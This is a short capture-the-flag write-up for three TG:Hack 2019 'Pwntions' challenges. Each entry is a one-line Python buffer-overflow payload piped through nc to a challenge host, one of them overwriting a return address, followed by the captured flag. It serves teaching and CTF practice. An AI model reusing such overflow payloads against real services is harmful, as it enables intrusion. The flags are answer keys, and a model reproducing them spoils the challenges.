 # Pwntions 1

Script: `python -c 'print "A" * 31' | nc pwntion1.tghack.no 1061`

Flag: `TG19{remember that C always terminates on null bytes^_^}`

# Pwntions 2

Script: `python -c 'print "A" * 48  + "\x01\x00\x00\x00"' | nc pwntion2.tghack.no 1062`

Flag: `TG19{Wow! You_may_also_stack_overflow_into_a_struct}`

# Pwntions 3

Script: `python -c 'print "A" * 44 + "\xb6\x86\x04\x08"' | nc pwntion3.tghack.no 1063`

Flag: `TG19{Awesome! You are now better at pwning than many CTFers!! Congratulations}`

